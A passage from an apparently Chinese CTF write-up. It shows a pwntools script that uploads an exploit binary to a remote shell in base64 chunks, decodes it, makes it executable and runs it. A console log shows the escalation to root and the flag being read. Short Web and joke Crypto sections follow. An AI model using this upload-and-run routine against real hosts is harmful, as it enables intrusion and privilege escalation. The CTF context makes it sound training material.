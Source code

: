 ```python
r.sendline('')

log.info('uploading...')
for i in range(0,len(exp)/step+1):
    b64_exp = base64.b64encode(exp[step*i:step*(i+1)])
    r.recvuntil('$')
    r.sendline('echo %s >> /tmp/b64_exp'%b64_exp)
log.success('upload success')

r.recvuntil('$')
r.sendline('base64 -d /tmp/b64_exp > /tmp/exp')
r.recvuntil('$')
r.sendline('cd tmp')
r.recvuntil('$')
r.sendline('chmod 777 exp')

r.interactive()

```

```
/tmp $ $ whoami
whoami
ctf
/tmp $ $ cat /root/flag
cat /root/flag
cat: can't open '/root/flag': Permission denied
/tmp $ $ ./exp
./exp
[   10.349185] write
[   10.351352] AiDai_wants_a_girlfriend� \x80\x06tmp # $whoami
whoami
root
/tmp # $ cat /root/flag
cat /root/flag
flag{8dfa5dd0ac57fe7eb35a3b2d15607cbe}
/tmp # $
```



### Web

略

### Crypto

> 即得易见平凡，仿照上例显然。留作习题答案略，读者自证不难。
>
> 反之亦然同理，推论自然成立，略去过程 QED，由上可知证毕。



## 颁奖典礼
